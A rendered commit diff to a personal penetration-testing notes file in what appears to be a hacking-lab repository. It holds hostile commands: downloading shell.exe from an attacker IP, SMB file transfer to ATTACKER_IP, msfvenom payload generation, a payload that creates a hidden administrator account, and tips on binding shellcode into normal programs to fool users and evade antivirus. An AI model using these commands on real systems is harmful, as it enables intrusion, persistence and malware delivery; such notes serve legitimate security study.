

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 1_Linux.md, 2 parts joined by grey strips. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/1_Linux.md
+++ b/1_Linux.md
@@ -189,6 +190,11 @@
   4. [Powershell] powershell **Invoke-WebRequest -Uri** http://10.9.1.255:80/shell.exe **-Outfile** file.exe
   5. make executable: chmod +x file.ext
 
+- https: Create certificate + spawn https server
+  - openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
+  - python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
+-
+
 - Option 2 - copy source
   1. Copy code from source and past in the target + save .sh
   2. make executable: chmod +x file.ext
@@ -197,6 +203,7 @@
   -  create server: sudo /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
   -  create client: net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
   -  upload file: copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
+  -  smbclient -U USER '//IP/folder'
 
 
 ## DNS, SMB, SNMP
@@ -227,6 +234,29 @@
 - unsetg => unset global values
 - background => putting a session in backgrou
 - sessions => display sessions
+
+## msfvenom
+- Many platforms and formats
+- Example generate hex of payload:
+  - Method 1
+    - msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
+  - raw binary file .bin:
+    - binary ==> msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
+  - convert to hex:
+    - xxd -i file.bin ==> generate payload for .c
+
+- Stage vs Stageless
+  - stageless: shell_reverse_tcp = one thing only
+  - staged: /shell/reverse_tcp
+
+- Smaller payloads
+  - Payload with a single command: **CMD='net user pwnd Password321 /add;net localgroup administrators pwdn /add'**
+
+- Binding
+  - Merge shellcode WITH normal program
+  - Fool users
+  - still can be detected by AVs
+  - Better: encode + encrypt + packers + binder
 
 ## Meterpreter
 - sysinfo
```
Also changed, not shown: other parts of 1_Linux.md (+1 -0 lines), 0_theory.md (+29 -1 lines), 2_Windows.md (+10 -1 lines).
